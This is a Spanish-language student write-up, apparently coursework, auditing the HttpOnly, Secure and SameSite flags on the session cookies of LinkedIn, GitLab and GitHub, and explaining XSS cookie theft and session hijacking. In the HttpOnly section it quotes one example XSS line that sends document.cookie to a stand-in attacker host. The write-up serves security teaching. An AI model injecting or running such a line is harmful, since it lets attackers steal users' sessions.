



# Objetivo 1: Auditoría de Cookies y Banderas de Seguridad

## Descripción

Analicé las cookies de sesión de tres sitios web públicos con el inspector del navegador, para ver si usan bien las banderas de seguridad `HttpOnly`, `Secure` y `SameSite`.

Para revisarlas hay que iniciar sesión en el sitio, abrir las herramientas de desarrollador con F12 y entrar a Application > Storage > Cookies (en Firefox, Storage > Cookies). Ahí cada cookie aparece con las columnas `HttpOnly`, `Secure` y `SameSite`, que indican qué banderas tiene.

## Desarrollo

Analicé la cookie de sesión de LinkedIn, GitLab y GitHub. En las capturas tapé la columna *Value*, porque con ese valor cualquiera podría entrar a la cuenta sin la contraseña.

### Sitio 1: LinkedIn

La cookie de sesión es `li_at`.

| Cookie | HttpOnly | Secure | SameSite | Expira |
| --- | --- | --- | --- | --- |
| `li_at` | ✅ | ✅ | None | 2027 (persistente) |

Tiene las dos banderas importantes: `HttpOnly` y `Secure`. El `SameSite` en `None` significa que la cookie también se manda en pedidos que vienen desde otros sitios, algo que LinkedIn usa para sus botones y widgets embebidos. Como está permitido solo junto con `Secure`, no viaja sin cifrar. Es una cookie persistente (vence en 2027), que es lo que mantiene la sesión abierta aunque cierres el navegador.

### Sitio 2: GitLab

La cookie de sesión es `_gitlab_session`.

| Cookie | HttpOnly | Secure | SameSite | Expira |
| --- | --- | --- | --- | --- |
| `_gitlab_session` | ✅ | ✅ | None | Session |

También tiene `HttpOnly` y `Secure`, y el `SameSite` en `None`. A diferencia de la de LinkedIn, en Expires dice `Session`: es una cookie de sesión pura, que el navegador borra al cerrarse.

### Sitio 3: GitHub

La cookie de sesión es `user_session`.

| Cookie | HttpOnly | Secure | SameSite | Expira |
| --- | --- | --- | --- | --- |
| `user_session` | ✅ | ✅ | Lax | Session |

Tiene `HttpOnly` y `Secure` igual que las otras dos, pero el `SameSite` está en `Lax` en lugar de `None`. `Lax` es más restrictivo: la cookie no se manda en pedidos que llegan desde otro sitio (salvo al navegar directo al link), lo que da algo más de protección contra CSRF. Se ve además que GitHub usa una segunda cookie, `__Host-user_session_same_site`, con `SameSite` en `Strict`.

### ¿Qué protege la bandera HttpOnly?

`HttpOnly` hace que el JavaScript de la página no pueda leer la cookie, o sea que no aparece en `document.cookie`. El navegador la sigue mandando al servidor en cada petición, así que la sesión funciona igual que siempre.

Lo que protege es que roben la cookie de sesión con un XSS. Si un atacante consigue meter un script en la página, sin `HttpOnly` le alcanza con algo como `fetch("https://atacante.com/?c=" + document.cookie)` para quedarse con la cookie y entrar a la cuenta desde su propia máquina. Con `HttpOnly` activo, el script no la puede leer.

Esto no soluciona el XSS: mientras la página esté abierta, el script igual puede hacer cosas en nombre del usuario. Lo que evita es que la sesión se pueda robar para usarla en otro lado.

### ¿Qué riesgo corre el usuario si la cookie de sesión no tiene Secure?

`Secure` hace que el navegador mande la cookie solo por HTTPS. Si no está, el navegador también la manda en cualquier petición `http://` al mismo dominio, y ahí viaja sin cifrar.

El riesgo es que le secuestren la sesión. Alguien que esté en la misma red, por ejemplo un wifi público, puede ver ese tráfico, copiar la cookie y entrar a la cuenta de la víctima sin saber la contraseña. Con que el usuario entre una sola vez a un link `http://` del sitio, o que el atacante lo fuerce a hacerlo, alcanza para que la cookie se filtre. Es el mismo problema que vi con la falta de HSTS en el módulo anterior.

## Conclusiones

Los tres sitios protegen bien su cookie de sesión: las tres tienen `HttpOnly` y `Secure`, así que el JavaScript no las puede leer y solo viajan por HTTPS. La diferencia está en el `SameSite`: LinkedIn y GitLab lo tienen en `None`, mientras que GitHub usa `Lax`, que es un poco más estricto frente a CSRF.

Son sitios grandes, así que era esperable que estuvieran bien configurados. La bandera que no aparece en ninguno es un `SameSite` más cerrado para la cookie principal, aunque en los tres casos es una decisión y no un descuido: LinkedIn y GitLab necesitan `None` para funcionar embebidos en otros sitios, y GitHub compensa con una segunda cookie en `Strict`.
